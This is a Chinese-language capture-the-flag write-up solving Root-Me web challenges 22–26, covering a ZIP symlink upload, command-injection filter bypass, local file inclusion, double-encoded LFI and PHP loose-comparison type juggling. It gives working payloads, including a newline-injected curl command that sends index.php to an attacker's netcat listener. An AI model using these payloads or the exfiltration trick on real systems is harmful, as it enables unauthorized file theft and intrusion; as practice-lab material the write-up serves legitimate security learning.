 ## 22.File upload - ZIP
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch51/](http://challenge01.root-me.org/web-serveur/ch51/ "http://challenge01.root-me.org/web-serveur/ch51/") &#x20;
\[+]Statement:读index.php文件1qqq &#x20;
\[+]Solution:目标是要读到index.php的内容。网站的文件上传功能只能上传.zip文件，上传完成后，服务器会解压缩，解压缩后的文件可以访问。但问题是上传的文件只有txt/jpg可以访问。因此构造命令如下，创建一个符号链接。

> ln -s ../../../index.php index.txt 

接着使用如下命令压缩这个符号链接。 &#x20;

> zip --symlinks index.zip index.txt

上传这个zip文件，再访问index.txt,即可读到服务器上的index.php

## 23.Command injection - Filter bypass
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch53/](http://challenge01.root-me.org/web-serveur/ch53/index.php "http://challenge01.root-me.org/web-serveur/ch53/")
\[+]Statement:找到漏洞并利用，她有一些保护。flag在index.php里
\[+]Solution:同样的命令注入，发现过滤掉了一些符号，同时命令的运行结果不会返回，经过测试发现 - 没有被过滤，但 | < > ; \ \` & 等符号被过滤掉了，但是仍然可以用%0a注入新的命令，另外反弹shell不太能实现，选择使用curl上传文件的方法读文件。先在vps上监听 &#x20;

> nc -lvv 9999

接着执行payload如下，可以读到index.php &#x20;
\[+]Payload:127.0.0.1%0acurl -F ‘filename=@index.php’ HOST\_ADDRESS:9999

## 24.Local File Inclusion
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch16/](http://challenge01.root-me.org/web-serveur/ch16/ "http://challenge01.root-me.org/web-serveur/ch16/")
\[+]Statement:获得Admin的部分
\[+]Solution:该服务器是一个明显的本地文件包含，结合提示构造url读取admin下的index.php
\[+]Payload:[http://challenge01.root-me.org/web-serveur/ch16/?files=crypto\&f=../../admin/index.php](http://challenge01.root-me.org/web-serveur/ch16/?files=crypto\&f=../../admin/index.php "http://challenge01.root-me.org/web-serveur/ch16/?files=crypto\&f=../../admin/index.php")

## 25.Local File Inclusion - Double encoding
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch45/](http://challenge01.root-me.org/web-serveur/ch45/ "http://challenge01.root-me.org/web-serveur/ch45/")
\[+]Statement:在网站的源码里找到认证密码
\[+]Solution:在URL里发现是一个文件包含。直接使用php\://filter/…会发现被拦截了。根据提示，进行url编码，编码一次还是会被拦截，当编码两次时成功绕过。此处需要注意的是，使用在线的或者是python等urlencode的api时，它不会编码 . ,需要手动把.编码成%2e,才能绕过。通过查看源码，可以找到存在密码的config.inc.php
\[+]Payload:

-   php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv
-   php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf

## 26.PHP - Loose Comparison
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch55/](http://challenge01.root-me.org/web-serveur/ch55/ "http://challenge01.root-me.org/web-serveur/ch55/") &#x20;
\[+]Solution:页面可以查看源码。代码的逻辑是传入两个字母和数字组成的字符串，第一个字符串和一个随机数拼接，要求和第二个参数的md5值相等。题目使用==来判断。==在两者的类型不同时先转换类型为相同再比较，如果有数字类型的就会按数字类型转换。根据题目构造payload，即可获得flag &#x20;
\[+]Payload:s=0e242\&h=240610708\&submit=Check
